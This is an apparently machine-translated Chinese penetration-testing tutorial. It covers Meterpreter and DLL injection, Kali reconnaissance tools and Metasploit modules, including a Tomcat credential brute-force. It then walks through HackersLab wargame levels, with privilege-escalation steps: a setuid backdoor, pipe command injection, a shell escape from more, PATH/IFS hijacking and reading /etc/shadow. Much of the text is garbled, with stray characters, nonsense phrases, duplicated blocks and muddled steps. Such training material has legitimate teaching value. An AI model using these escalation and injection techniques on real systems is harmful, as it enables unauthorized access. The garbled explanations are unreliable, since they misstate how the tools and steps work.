目标 攻击者 (Meterpreter)

首先，将利用程序和第一阶段 3 发送到目标。

实现利用后，stager 在任务中加入目标，并尝试再次与 `mfsconsole` 通信以打开连接。

一旦建立连接，就会发送第二阶段。如果你能够正确执行 DLL 注入，`metasploit` 将发送 DLL 文件 `meterpreter` 以建立一个完整且稳定的通信通道。

最后，`meterpreter` 使用 `TLV` 4 协议加载必要的扩展（如 `stdapi` 或 `priv`）。

> (1) 在 Windows 操作系统，进程经常加载链接库 `din` 到 `mico`（动态链接库）。`DLLs` 是执行许多程序通用功能的文件，因此使用它的目的是为了提高 `c` 的模块化，或者说，是为了更好地利用系统资源（尤其是内存）。

DLL 注入是一种允许你进入 `c` 或说其他进程的技术，这将强制一个运行中的进程恶意地加载带有 `C` 或说的 `DLL`。这种方法更有利于安全程序进行检测，因为它是“隐藏”在常规进程中的。

> (2) Stager：在攻击者 v í 受害者之间建立连接的负载或 n。它尝试尽可能小 ñ 并且尽可能可靠，因此它们最终使用几个较小的 ñ 或尺寸 ñ 或（metasploit 根据具体情况选择合适的项）。

> (3) `Stage`：`Stager` 的组件 / m 或模块

> (4) `Protocol` `TLV`（类型-长度-值） 是一种可以非常有效地表示信息或 n 的格式。为了实现这一点，使用了三个字段：数据类型（基本上是一个标签）、长度（字段值）和值（在我们数据 s s t 中）。

## Meterpreter 的其他目标

### 隐蔽性
* Meterpreter 仅留在内存中（在磁盘上不留痕迹）
* 不创建新进程（它被注入到已经激活的进程中）
* 我们机器与目标之间的通信是加密的

### 强度
* Meterpreter 使用通信通道
* TLV 协议限制很少

### 可扩展性
你可以轻松添加扩展，而无需重新构建/重新编译。
* `Rex`：大多数任务的基础库（基础任务、插件管理、协议等）。
* `MsfCore`：提供“基础”API，定义了 Metasploit 框架。
* `MsfBase`：提供“友好”的 API，并与之交互（通常通过接口），为了在框架中使用而进行了简化。

### 模块
* `Auxiliary` 模块允许外部工具（如漏洞扫描器、嗅探器等...）与 Metasploit 框架交互。
* `Encoders` 模块：提供算法，用于对利用成功后我们将使用的负载进行编码和混淆（尝试使其变得不可读）。
* `Exploits` 模块：这是框架中所有可用利用程序所在地，用于获取不同操作系统的权限。
* `Payloads` 模块：提供了大量代码，一旦利用成功，我们可以远程执行这些代码。
* `Post` 模块：提供后渗透利用阶段的功能。
* `Nops` 模块：确保负载的连接和数据流量保持不变。

## 第 5 章 - Kali Linux 简介

Kali Linux 是著名的 Linux BackTrack 发行版的新一代，用于执行安全审计和渗透测试。Kali Linux 是一个基于 GNU / Linux Debian 的平台，是 BackTrack 的完整重构，包含了大量用于捕获信息、识别漏洞、利用漏洞、提升权限和隐藏特征的工具。

本章为使用 Kali Linux 中包含的最流行工具提供了很好的实用指南，这些工具涵盖了渗透测试的基础。该文档对于沉浸在该领域的专业人士以及初学者来说都是极好的知识源。

### Kali Linux 特性
Kali Linux 是 BackTrack Linux 的完整重构，完全遵循 Debian 开发标准。一套全新的基础设施已经投入运行，所有工具都经过了检查和打包，现在使用 `Git` 进行版本控制。
* 超过 300 渗透测试工具
* 它是免费的，且将一直是免费
* 开源 Git 树
* 符合 `FHS`（文件系统层次结构）
* 对无线设备的广泛支持
* 用于注入的内核补丁
* 安全开发环境
* 使用 `GPG` 签名的包和仓库
* 多语言支持
* 完全自定义
* 支持 `ARMEL` 和 `ARMHF`

### 获取 Kali Linux
Kali Linux 可以针对不同的架构下载，例如 `i386`、`amd64` 和 `armel`、`armhf`。对于 `i484`、`i686` 和 `amd64`，可以下载 ISO 镜像或用于 VMW 的虚拟机。也可以通过直接下载或 Torrent 下载。

## 第 6 章 - Kali Linux 安装
Kali Linux 可以像任何 GNU / Linux 发行版一样安装在硬盘上，也可以安装并配置为与 Windows 操作系统双启动；同样，它可以安装在 USB 驱动器上或加密在磁盘上。

建议在以下页面查看 Kali Linux 各种安装选项的详细信息：`http://docs.kali.org/category/installation`

### 修改 Root 密码
为了安全实践，建议更改给 root 用户的默认密码。这将使得恶意用户难以使用默认密码访问系统。

```bash
### passwd root
```

输入新的 UNIX 密码：

重新输入新的 UNIX 密码：

[*] 密码在输入时不会显示，且必须输入两次。

## 启动网络服务
Kali Linux 网络服务包括 HTTP、`Mestaploit`、`MySQL`、`OpenVAS` 和 SSH。

如果需要启动 `HTTP` 服务，必须执行以下命令：

```bash
### /etc/init.d/apache2 start
```

这些服务也可以从菜单启动和停止：应用程序 -> Kali Linux -> 系统服务。

Kali Linux 对其多个方面和特性提供了官方文档。文档正在不断更新中。可以在以下页面找到这些文档：`http://docs.kali.org/`

## Kali Linux 工具
Kali Linux 包含了大量来自安全和取证领域不同来源的工具。

以下网站提供了所有工具的列表及其快速参考：`http://tools.kali.org/`

### Shell 脚本
Shell `Bash` 允许你自动化某些操作或执行耗费大量重复性任务。对于接下来的练习，将使用一个发布代理列表的网站。

使用来自 `bash` shell 的命令，将代理的 IP 地址和端口提取到文件中。

```bash
# wget http://www.us-proxy.org/ 
# grep "<tr> <td>" index.html | cut -d ">" -f 3,5 | cut -d "<" -f 1,2 | sed 's / <\ / td> /: / g'
```

## 捕获信息
此阶段尝试尽可能多收集目标信息，例如尽可能可能的用户名、IP 地址、名称服务器和其他相关信息。在此阶段，获取的每条信息都是重要的，不应被低估。请记住，收集的信息越多将增加攻击成功的概率。


信息获取的过程可以分为两种方式：主动信息获取和被动信息获取。在第一种方式，通过向目标网络发送流量来收集信息，例如执行 `ICMP ping` 和 `TCP / UDP` 端口扫描。对于第二种情况，通过使用第三方服务或来源（如 Google、Bing 或社交网络）在目标网络上获取信息。

## 公共资源

互联网上有各种可以用于收集有关目标信息的公共资源。使用此类资源的优点是不会产生指向目标的直接流量，通过这样可以最大限度地降低被检测的概率。

## 获取文档

`-dnsserver` 选项定义了使用特定的 DNS 服务器进行主机查询。

`-dns` 选项定义了扫描的域名。

`-wordlist` 选项定义用于发现子域名的单词列表。

`-file` 选项定义了输出文件。

* `dnsenum` 工具包含一个单词列表 `dns.txt`，可以与任何其他需要的工具配合使用，在此处也是。

## Dmitry

`DMitry` 是一个适用于 Linux 的在线命令行程序，允许你获取有关主机的尽可能信息，从简单的 Whois 到运行时间报告或端口扫描。

### `dmitry`

```bash
dmitry -w -e -n -s [Domain] -o /tmp/resultado_dmitry.txt
```

`-w` 选项允许对主机 IP 地址进行 whois 查询。

`-e` 选项允许你搜索所有可能的电子邮箱地址。

`-n` 选项尝试从 Netcraft 获取有关主机的信息。

`-s` 选项允许你搜索可能的子域。

`-o` 选项允许你定义保存结果的文件名。

尽管 `dmitry` 中有一个选项允许从 Netcraft 获取主机域名的信息，但在实际上中是不可行的。这些信息可以直接从 Netcraft 网站获取：http://searchdns.netcraft.com

## 路由信息

### Traceroute

http://linux.die.net/man/8/traceroute

`Traceroute` 跟踪数据包从 IP 网络到指定主机所经过的路径。它使用 IP 协议的 `TTL` 字段，并尝试从通往主机的每个网关触发 `ICMP response TIME_EXCEEDED` 响应。

GNU / Linux 系统上的 `traceroute` 版本默认使用 UDP 包。

```bash
traceroute --help
traceroute [IP Address]
```

### Tcptraceroute

http://linux.die.net/man/1/tcptraceroute

`tcptraceroute` 使用 TCP 包跟踪到目标主机的路径。

```bash
tcptraceroute --help
tcptraceroute [IP Address]
```

## 使用搜索引擎

### Theharvester

https://code.google.com/p/theharvester/

```bash
nping -h
nping [IP Address]
```

`Nping` 默认使用 ICMP 协议。如果目标主机拦截此协议，可以使用 TCP 测试模式。

```bash
nping --tcp [IP Address]
```

`--tcp` 选项允许用户创建并发送任何类型的 TCP 包的模式。这些包嵌入在 IP 包中发送，且 IP 包也可以进行调整。

## 操作系统识别

此过程尝试确定运行在活跃目标上的操作系统，以便知道尝试渗透的操作系统类型和版本。

### nmap

http://nmap.org/

```bash
nmap -O [IP Address]
```

## 服务列表

确定每个特定端口上运行的服务可以确保对目标网络进行满意的渗透测试。你也可以消除在操作系统指纹识别过程中产生的任何疑虑。

### Nmap

http://nmap.org/

```bash
nmap -sV [IP Address]
```

`nmap` 的 `-sV` 选项启用了版本检测。在使用 `nmap` 提供的某些扫描程序发现 TCP 和 UDP 端口后，版本检测将查询这些端口以确定更多关于当前运行内容的信息。

数据库包含了用于咨询各种服务和对应关系表达式的测试，以识别和解释响应。`nmap` 尝试确定服务协议、应用程序名称、版本号、主机名和设备类型。

## 利用目标

在发现主机或目标网络中的漏洞后，是时候尝试利用它们了。利用阶段有时会结束渗透测试过程，但这取决于合同，因为在某些情况下，你必须深入进入目标网络，目的是将攻击扩展到整个网络并获得所有可能的权限。

## 漏洞利用库

每天都会报告各种类型的漏洞，但目前只有其中一小部分被公开或免费发布。其中一些“利用程序”可以从维护仓库的网站上下载。

## Metasploit 框架控制台

http://www.metasploit.com/

`Metasploit Console` (`msfconsole`) 主要用于管理 Metasploit 数据库、管理会话以及配置和执行 Metasploit 模块。它的核心目的是利用。该工具允许你连接到目标，以便对其执行利用程序。

由于 Metasploit 框架使用 `PostgreSQL` 作为其数据库，必须首先启动它，然后启动 Metasploit 框架控制台。

```bash
service postgresql start
```

要验证服务已正确启动，必须执行以下命令。

```bash
netstat -tna | grep 5432
```

显示 Metasploit 框架帮助。

```bash
msfconsole -h
msfconsole
```

一些与控制台交互的有用命令有：

```bash
msf> help
msf> search [Module Name]
msf> use [Module Name]
msf> set [Option Name] [Module Name]
msf> exploit
msf> run
msf> exit
```

与控制台交互的某些有用命令是：

```bash
msf> help
msf> search [Module Name]
msf> use [Module Name]
msf> set [Option Name] [Module Name]
msf> exploit
msf> run
msf> exit
```

下面的示例详细说明了辅助模块 `SMB User Enumeration (EnumUsers)` 的使用。

### Metasploit CLI

`Metasploit CLI` (`msfcli`) 是允许 Metasploit 框架执行任务的接口之一。这是一个学习管理 Metasploit 框架或评估/编写新利用程序的良好界面。在需要脚本中使用并进行自动化时它也非常有用。

```bash
msfcli -h
msfcli [Exploit Route] [Option = Value]
```

接下来的示例将使用名为 `MySQL Version Enumeration` 的辅助模块，该模块允许枚举 MySQL 版本。

对于接下来的示例，将在 Metasploit 框架中使用名为 `Tomcat Manager Login Utility` 的辅助模块，它将使用特定的用户和密码对 Tomcat 实例进行身份验证。

```bash
msf> search tomcat
msf> use auxiliary / http / tomcat_mgr_login msf auxiliary (tomcat_mgr_login)> show options
msf auxiliary (tomcat_mgr_login)> set RHOSTS [Objective IP] msf auxiliary (tomcat_mgr_login)> set RPORT 8180
msf auxiliary (tomcat_mgr_login)> set USER_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
msf auxiliary (tomcat_mgr_login)> set PASS_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
msf auxiliary (tomcat_mgr_login)> exploit msf auxiliary (tomcat_mgr_login)> back
```

## 利用演示与后渗透

下面的演示允许加强课程中介绍的工具的使用。这些演示重点关注利用阶段和后渗透阶段，即攻击者在利用漏洞获取系统权限后执行的过程。

### 使用本地利用程序提升权限的演示。

```bash
ssh -l msfadmin 192.168.159.129
```

进入系统后，我们继续使用 `sudo` 命令。

```bash
sudo cat / etc / shadow
sudo passwd root
```

输入新密码，然后

```bash
your root
id
```

后渗透阶段将与第一个示例所示的类似。


# 第 7 章 – 解决等级问题

## Level 0 问题

登录：`level08` 密码：`guest` 学习：入门级 Level 0

由于它非常简单，这只是为了让你理解进入后续关卡时需要的一些概念。我将利用这个空间进行解释。我们在 `level0` 以及所有其他关卡中的主要目标是获取下一个关关的密码。这可以通过运行 `bin` 目录下的 `pass` 命令来实现。尝试连接到 HackersLab 并输入 `pass`。屏幕上会出现并向你显示 `level0` 的密码。那么，为了获取 `level1` 的密码，我必须以这个用户登录吗？这怎么可能呢？

还有另一种方法。在每个关卡中，都有一个文件的 `UID`（用户标识符）比你高，`GID`（组标识符）也比你。任务是：如何探索这个文件，以便通过它执行 `pass` 命令并获取下一个密码？现在，如果我们通过它来操作，并且它具有更高的用户权限（`UID`），我们的系统就会“认为”我们是另一个用户。困难吗？让我们来看一个例子。

假设我们连接到 HackersLab。让我们创建一个虚拟的 `level0` 作为一个测试：8 登录：`level08` 密码：`[level0 @ level0]`
```bash
[level0 @ level0] $ whoami
[level0 @ level0] $ id
UID = 2000 GID = 2000 OTHER ANY = 9999
```
到为止，我们实现了什么？我们成功登录了 `level0`，输入了 `whoami` 命令，它告诉我们用户名是 `level0`；以及 `id` 命令，它为我们提供了用户 ID（`UID`）、组 ID（`GID`）以及我们不需要的其他信息。

现在我将让系统搜索 `UID` 比我们高的文件。例如，如果我们的 `UID` 是 2000，那么我想搜索 `UID` 为 2001（`level1`）的文件。
```bash
[level0 @ level0] $ find / -uid 2001 -gid 2000
tmp/suzuki: Permission Denied/
bin/joy: Permission Denied/
etc/test/
usr/local/yu: Permission Denied/
var/shenmue: Permission Denied
```

我要求系统显示所有允许的且属于用户 `level1`（`UID` 为 2001）和组 `level0`（`GID` 为 2000）的文件。为什么要查找 `GID`？很简单。文件必须属于我们的组，这样我们才能操作它。这很快就会变得清晰。我们只找到了 `/etc/test` 文件。其他所有显示 `Permission Denied`（拒绝访问）的都是垃圾。

那么，如何只列出我们需要的文件？
```bash
[level0 @ level0] $ find / -uid 2001 -gid 2000 2> /dev/null
etc/test
```
重新执行命令，我包含了字符串 `2> /dev/null`，我告诉系统“任何不需要的内容（`2`）发送到（`>`）垃圾桶（`/dev/null`）”。因此，我们得到了预期的结果。现在，让我们列出文件内部格式。
```bash
[level0 @ level0] $ ls -la /etc/test
-rwx ---x--- 1 level1 level0 10876 Mar 8 06:24 test
```
从信息中，我们确认了我们的目标。它是由用户 `level1` 创建的文件，并且属于组 `level0`。创建它的用户拥有所有用户的权限，组用户仅允许执行，而其他人甚至连执行的权限都没有。出于好奇，我可以使用用户名 own `UID` 来浏览文件吗？当然可以！

完美。我们以相同的方式找到了文件。我们如何直接运行这个文件，让我们尝试：
```bash
[level0 @ level0] $ cd /etc
[level0 @ etc] $ test
Error: file not found.
```
发生了一个错误。这是因为我们的可执行文件不在 `PATH` 中。`PATH` 是一个变量，指示了哪些目录中的文件可以从当前所在的目录运行。我们我们只能在可执行文件前面加上 `./`（点和斜杠），这一定可以在不依赖 `PATH` 的情况下运行它。
```bash
[level0 @ etc] $ ./test/bin/pass
```
恭喜你……level1 的密码是 xxxxx。准备好了！在我们虚拟的示例中，`test` 文件运行了 `pass`（那个给我们提供密码的命令，记得吗？）。但它给我们的是 `level1` 的密码而不是 0？这是因为 `test` 拥有 `level1` 的用户权限，所以我们欺骗了 `pass` 命令，它给了我们奖励。在每个关卡中，这必须以不同的方式完成。如果你还没有理解，我们现在将在实践部分逐步回答您的问题，然后，我们将通过 `telnet:8` 连接到 `drill.hackerslab.org` 
登录：`level08` 密码：`guest`
连接到 `level0`。

我们进去了。我输入了 `whoami` 和 `id` 命令查看用户名和标识符（IDs）。这并不是必须的；我只是为了方便你理解这样做。我们准备好搜索目标文件了。我输入 `find / -user level1 -group level0 2> /dev/null` 来寻找由 `level1` 创建且组为 `level0` 的文件。系统找到了一些文件，包括 `/dev/.hi`。`Dev` 代表设备。根据等级提示，我将首先尝试这个文件。我列出了信息，看到它对 `level0` 组的用户有执行权限。让我们运行它看看会发生什么。我输入 `cd /dev` 进入目标文件所在的目录。我输入 `.hi`。系统返回一个错误，说找不到命令。这意味着命令不在 `PATH` 中。没问题……我们在命令前加上 `./` 并执行它：`./.hi`。显然，什么都没有发生。

让我们检查一下：尝试 `id` 命令。噢！惊喜！出现了一个新的 `ID`，其 `EUID` 编号为 `2001`（`level1`）。这个 `EUID` 之前并不存在……它是程序赋予我们的。我们将尝试 `whoami` 命令，以消除疑虑。没错！！命令告诉我们是 `level1`（或至少我们拥有 `level1` 的权限）。`.hi` 是怎么做到的？很简单，它是一个后门（资金或木马）。当我们运行它的瞬间，它运行了 `/bin/sh` 命令并在第一个 shell 中创建了另一个 shell（命令会话），但使用的是你的权限。这意味着如果我们尝试输入 `pass` 命令（返回关卡密码），现在我们得到了……下一个关卡的密码！！！那么，level1 的密码是 `newworld`。

## Level 1 问题

登录：`level18` 密码：`newworld` 学习：命令的外部执行与管道。

在这个关卡所需的知识是知道如何利用执行外部命令的程序。如果程序的 `EUID`（ID）比你的高，这可能是一个严重的问题。为了演示，让我们遵循 `level0` 的例子。我将创建一个虚拟的 `level1`，带有虚拟文件作为测试。登录：`level18` 密码：`[level1 @ level1]`
```bash
[level1 @ level1] $ find / -user level2 -group level1 2> /dev/null
usr/bin/list
[level1 @ level1] $ cd /usr/bin
[level1 @ bin] $ ./list
Enter a file: /usr/bin/list
-rwx ---x--- level2 level1 876 Jun 23 13:12 /usr/bin/list
```


让我们仔细回顾一下我们所做的。我们应该登录到 HackersLab 系统，寻找 UID 为 level2 且 GID 为 level1 的文件（如果你还不理解为什么这样进行搜索，请重新阅读 level0）。我们找到了文件 `/usr/bin/list`。我尝试运行它并成功了。它要求我输入任何文件，并告知我与我们正在使用的文件相同的信息，只是为了看看会发生什么（可以是任何文件）。然后 `list` 程序向我返回了我提供的文件信息。问题就在这里。`list` 在内部执行的命令是 `-l` 用于显示文件信息。他在系统上执行了以下操作：

```bash
level1 @ level1 $ ls -la /usr/bin/list
-rwx — x— level2 level1 876 Jun 23 13:12 /usr/bin/list
```

但他执行时使用的权限高于我们（忘记了你创建的用户和 ID 是 level2 吗？？）。既然它是在外部执行 `ls` 的，我们能做什么来添加另一个命令呢？简单的方法是使用管道（`|`），我们在命令章节中见过它。它会允许你输入另一个要执行的命令。但我们在哪里输入呢？让我们再次运行 `list`：

```bash
level1 @ level1 bin $ ./list
Enter a file: /usr/bin/list
```

这里就是秘密。与其只放入文件的 `PATH`，不如我们在前面加上管道和一些命令？会像这样：`Enter a file: /usr/bin/list | pass`。

没错！如果我们的理论是正确的，它将运行 `ls`，列出我们的程序 `/usr/bin/list`，然后立即运行提供密码的 for 中的 程序。现在完成：

```bash
level1 @ level1 bin $ ./list
Enter a file: /usr/bin/list | pass
-rwx — x— level2 level1 876 Jun 23 13:12 /usr/bin/list
```

level2 的密码是……准备好了！我们得到了新密码。现在进入真正的流程演示吧。

### 逐步步骤

登录 HackersLab 并使用 level1 密码登录。第一要做的（经典操作）是输入命令 `find / -user level2 -group level1 2> /dev/null` 来寻找我们的目标文件。我们找到了两个，`/proc/20840` 和 `/usr/bin/amos`。但等一下…… Amos 是一个先知的名字（咚、咚、咚……我们发现为什么这个提示这么重要了）。让我们再检查 `amos` 文件：从大师们那里获得信息，我们发现再次拥有执行该文件的组权限（`x`）。我们成功地旋转了它而不需要在前面加 `./`，这意味着它在 `PATH` 中。这在我们的学习模拟中是如何发生的？程序要求我们输入任何文件的 `PATH`。我们放入当前正在运行的文件（如前所述，可以是任何文件）。它告诉我们它是可执行的。

回到这个级别的这个问题，我们看到 Matthew 必须使用 `file` 命令来制作 `amos` 程序。那么，程序是在外部运行文件归档吗？你？让我们试试看！是的！！示例在外部运行该文件。让我们尝试运行它并建立管道来尝试获取你的权限。所以让我们按照我们学习的方式来：我们输入 `/usr/bin/amos` 的信息、`|`（管道）和 `pass` 命令。这样，程序将拥有文件 `/usr/bin/amos | pass`。结果？level2 的密码。又赢了一关。

### Level 2 问题

Kevin 是一个 BBS 程序员，想在你的主页上添加一个警告，这样你的成员每次登录都能看到你的帖子。不幸的是，消息超过了一页，他们的成员无法阅读。结果，他日日夜地苦思，试图寻找解决方案。最后，他考虑使用 `more` 命令来解决你的问题。然而，这种方法因为安全问题是有风险的。提示：话如此！

**登录：** `level28`
**密码：** `DoItYourself`
**学习：** Shell 和子 Shell（Subshells）

系统的 shell 不仅仅是执行所插入 shell 解释器命令。它是一个文本模式屏幕，你可以通过系统命令与之交互。例如在 DOS 系统中，命令解释器是 `command.com` 文件。在 Windows NT 兼容系统中，它是 `cmd.exe`。你可以通过进入“开始/运行”并输入 `cmd` 来证明这一点。一个命令行窗口将会打开。

为什么用 Windows 作为例子？为什么 Linux 不大不相同。它有几种 shell 类型（`sh`、`csh`、`ksh`、`bash2`……），当它们在图形化窗口管理器（如 GNOME 或 KDE）中运行时，会给你另一个小的文本模式窗口，即命令提示符大王。要结束它很简单。只需关闭它即可。当你从窗口管理器内部运行 shell 时，你将在后台运行。这是一个重要的学习概念，因为我们以后会经常用到。我也可以在另一个 shell 内部运行 shell。这被称为子 shell（subshell）。示例所示：

```bash
[my system] $ ls....rhostpasswd.old
[my system] $ /bin/sh
bash $
```

在上面的示例中，我处于一个 shell 中（在那里我显示我的系统），并移动到了另一个 `sh`（或简单的 `bash`）。如果我输入 `exit` 命令，我就会回到上一个。这证明了 `sh` 是子 shell，因为它是在原始运行的内容内部。

```bash
bash $ exit
[my system] $
```

这也可以通过程序完成。许多运行在 shell 上的文本模式程序（如 `pine`、`vi` 等）都允许从它们内部运行子 shell。甚至像 `more` 这样的命令也允许。这将在这一级的实践部分变得清晰。

### 逐步步骤

我们连接 HackersLab 并尝试列出用户 level3 和组 level2 权限的文件。我们找到了警告文件。可能就是之前根据该级描述创建的同一个。下一步：列出它。执行它。让我们开始。我们运行了警告文件，看到 Kevin 使用 `more` 命令在你的文件的屏幕之间暂停。如果我们按下 Enter、Page Down 和其他键，文件将继续缓慢显示。相反，我们将这样做：我们在 `More` 上方写了命令 `! /bin/sh`。这意味着告诉系统：我亲爱的 Linux，运行（`!`）位于 bin 目录（`/bin/sh`）下的命令解释器 `sh`。我们进入了 shell。由于运行 shell 的程序具有 level3 权限，我们用 `whoami` 测试了，并且已经准备好进入 level3。运行 `pass`，就这样，我们进入了 level3！

### Level 3 问题

**登录：** `level38`
**密码：** `hackerproof`
**学习：** PATH 和 IFS HackersLab

Level 3 和 4 几乎一样，在这两个关中，你需要理解 `PATH`、`IFS` 和完 export 的概念。挑战初期的这些级别非常有趣且困难（你稍后会发现 level5 和 6 要简单得多）。虽然书侧重于如何破解 Linux 系统，但我将简要解释 `PATH`。学习这个术语有助于理解其他内容。首先，让我们来看概念：

`PATH` 是目录的绝对路径，系统始终在那里查找要运行的文件。例如，在系统根目录下输入 `ls`、`dir`、`date` 或任何其他命令，操作系统将搜索 `PATH` 中的这些命令并执行它们。如果没有，它将返回错误。复杂吗？并不复杂。让我们来看一个简单的例子。在上面的 DOS 示例中，我列出了 test director 目录下的数据。我发现有一个名为 `app.exe` 的程序。然后我从根目录运行 `app`。我收到一个错误，说命令无法识别（找不到）。于是，我修改了 `PATH` 并将其指向包含 app 的目录。只需使用 `PATH = C:\directorytest`。我再次尝试运行 app，哇！它顺利运行了。当然，现在命令位于系统搜索 `PATH` 中。好了，但这与黑客挑战有什么关系？有关。想象一个 Windows 应用程序从外部调用 `NET.EXE`（控制 NetBIOS 协议的命令，可能连接共享、发送消息、启用用户等）。如果我创建了同名的（`NET.EXE`），将其放在 test director 并设置了 `PATH`，对该程序会发生什么？`NET` 将由该程序正常运行，但我的 `NET` 可能是一个入侵程序，如后门（或木马）。


回到 Linux，想象一下 Steven 的程序简单地输出日期。这很简单，只需在一个目录（任你选择哪一个）中创建一个伪造版本，将 `PATH` 移动到那里并将其导出（发送回系统）。

但我们遇到了一个问题……如果他的程序直接运行 `/bin/date` 而不是只运行 `date` 呢？即使我们修改了 `PATH`，程序也会直接在那个目录下运行……现在怎么办？谁能帮我们？无畏的 `IFS`。`IFS`（内部字段分隔符，Internal Field Separator）有一个特性——你可以给它一个 ASCII 字符，每当在系统中输入命令时，这个字符就会被分隔开。

这个过程有一些非常有趣的用途：在我们的问题中，Steven 的程序在系统上直接运行 `/bin/date`。如果我们这样配置 `IFS`：`export IFS = /`（仅用一行代码完成配置并导出到系统，节省了时间），这将导致什么？程序不再运行 `/bin/date`，而是运行 `bin date`（作为两个独立的命令），因为 `IFS` 删除了斜杠。嗯，如果它运行的是 `date`，它就会落入我们糟糕的 `PATH` 中，我们就能破坏系统……如果你还有疑问，将在接下来的实践部分解答。

重复那个（已经开始变得无聊的）连接到 HackersLab 第 3 层并寻找 steven 创建的文件的过程，我们今天找到了该文件（奇的是，它在 `/usr/man/en/man8/` 目录下，这是 Linux 附带手册的巴西葡萄牙语版本）。我们列出了文件（常规操作），并看到它具有执行权限。

进入文件目录并输入 `pwd` 命令仅作确认（显示当前目录）。尝试通过输入 `./today` 来运行文件，这样它就返回了日期。现在一切都遵循了初始问题中的说明。

输入 `date` 命令进行测试，它以常见的格式返回结果。这没必要真的做，只是出于好奇。输入 `set` 命令（显示、更改和创建系统变量），我们看到了 `PATH`。外部使用的可执行文件 `date` 位于 `bin` 目录内。现在让我们采取必要的步骤——即学习中所解释的那些步骤。

首先，我输入了命令 `export PATH = /home/level3/tmp`。我在前面加上 `export` 以创建新的 `PATH` 并将其导出（发送）到系统。这个 `/home/level3/tmp` 目录是 level3 有权限记录的唯一目录。我们将在这里创建伪造的 date。我们创建并通过输入 `export IFS =/` 导出 `IFS`。

现在注意，`echo /bin/pass> /home/commandlevel3/tmp/date` 只在我们记录目录下创建一个名为 `date` 的文本文件，并将文本 `/bin/pass` 发送（echo）到该文件中。这将导致每次运行 `date` 时，都会运行 `/bin/pass` 命令，从而向我们显示密码。有效了吗？在上一张图片的最后，我们再次输入 `mind ./today` 进行测试。结果时间……到了吗？这就是我们的 level4 密码。微笑！

## 第 4 层问题

登录：`level4` 密码：`AreUReady?` 学习：更多的推断和更多的 `PATH`。

第 4 层与第三层非常相似。我以前在该关卡学习中展示的内容都适用于这里。但有一个巨大的区别。我怎么知道的？根据题目，Kevin 在你的游戏中只添加了一行代码。这行代码可以是任何内容……屏幕上的消息、注释或正在执行的外部命令。你只有一种方法知道：运行游戏并尝试识别它正在运行的命令（它会列出目录吗？显示日期？时间？）。你可以使用 `strace` 等命令来尝试找出外部引用。但最简单的方法是尝试运行游戏并发现。我提到的巨大区别是：在第 3 层，你知道哪个应该冒充 `date` 命令，但在这一层，除了知道用的是哪个命令外，你不确定这是否是正确的流程。只有通过分析你才会知道。让我们一步步检查一下正确的流程应该是怎样的。

我们以 `level4` 身份连接到 HackersLab，并寻找带有 level5 用户任务的文件。我们找到了我们的游戏，即那个木马文件，它在 `/usr/games` 目录下。让我们运行它看看会发生什么。游戏提示你选择想要玩的速度。那个游戏是一种俄罗斯方块游戏。我们在这里看到的一个有趣点是，游戏在启动时清理了屏幕。而且在你玩的时候，它还会多次清理屏幕。那么是清理屏幕的 `clear` 命令在外部运行吗？让我们遵循这个推理，并尝试像第 3 层那样操作。

再次，我们将 `PATH` 导出到 `/home/level4/tmp`（我们唯一可以记录的目录）。我们将 `IFS` 导出到系统。我们在记录目录下有一个名为 `clear` 的文件，并在其中使用了 `/bin/pass` 命令。如果事实如此，那么当我们运行 `trojka` 时，它的效果将与上一层一样，但现在程序执行后，我们已经清理了坏的那个。所以……平安夜，圣夜！继续向第 5 层进！

## 第 5 层问题

登录：`level5` 密码：`Silent night, holy night!` 学习：二进制文件中的字符串。

首先，什么是字符串？正如大学里教的，它是字符分组。在普通语言中，它是一个单词、一个句子或文本。每当我们编程时，我们需要使用字符串相互通信以及与用户通信。这里是不同语言中两个面向用户的字符串示例。Pascal `writeln ('Enter a number');` 8 C++ `cout >> "Enter a number \n";` 字符串也用于对单词和短语进行简单比较。

我知道所有程序员都看腻了这些，但对于非程序员来说，基础解释是非常重要的，以免他们迷失方向。一个比较示例：
```pascal
Test Program;
var x : string;
begin
  writeln (' Enter your password: ');
  readln ( x );
  if x = ' binladen ' then 
    begin
      writeln (' Correct Password ');
    end
  else 
    begin
      writeln (' Incorrect password ');
    end;
end;
```

在这个 Pascal 的小程序中，我首先向用户发送一段请求密码的文本。我读取包含密码的变量，然后进行比较：如果字符串（密码）与 `binladen` 相同，我就写下密码正确，否则输入“密码错误”。这对任何人来说都不新奇。在这里，对我们有趣的是编译后的程序而不是源代码。当我们不在编译后的程序中使用加密功能或可执行文件时，它会将我们的大多数字符串保留在显示中。你可以使用十六进制编辑器查看这一点。但有一个更简单的方法，`strings` 命令，它可以扫描任何二进制文件（不仅仅是可执行文件）并向你显示找到的字符串。我将在 DOS 中编译之前所示的代码并逐步演示问题。我编写了程序并对其了测试。

我输入 `saddamhussein` 作为密码。它返回密码错误，所以我用默认密码 `binladen` 进行了测试。程序返回了正确的密码。很快，我将输入 `strings command progteste.exe` 来尝试寻找字符串 `binladen`。

哎呀……快速查看 `strings` 命令生成的生成，我们发现了四行有趣的内容：Type your password: bin Laden. Correct password。这样我们就可以在不使用加密功能或对任何可执行文件进行压缩的情况下，推出简单的密码。我们在 DOS 中看到了它，但 Linux 又是呢？那么，让我们一步步来。

我们以 `level5` 身份连接到 HackersLab。我们正在寻找目标文件，即题目提到的新修改的后门位置。我们找到了 `/lib/security/pam_auth.so`（`/lib/security` 目录下的文件 `pam_auth.so`）。我列出了你的信息，我们再次被允许执行。让我们开始吧。


我们运行了 `pam_auth.so`，它向我们要了密码，我们输入了任意字符串，但它返回“密码错误”。让我们先检查你的目录是否有更有趣的文件。那里有很多文件。如果我们尝试每一个文件中的命令字符串将会浪费大量时间。所以，我们将尝试主文件 `pam_auth.so`。我们会找到一些有趣的东西吗？我们发现了几个可能的密码：`abcd1234`、`loveyou!`、`flr1234`，我们必须逐一尝试这些密码作为 level 6 的密码。还有两个可能作为密码的短语：`what the hell are you thinking?` 和 `Best of The Best Hackerslab`。嗯，这个 `Best of TheBest Hackerslab` 看起来可疑。让我们先试试它。

`Best of The Best Hackerslab` 是正确的密码。直接进入顶层。如果你愿意，与其直接登录为 level6 并输入密码，不如在后门使用正确的密码让 John 再次生气！

## Level 6 题目

登录名：`level6` 密码：`Best of The Best Hackerslab` 学习内容：端口扫描。

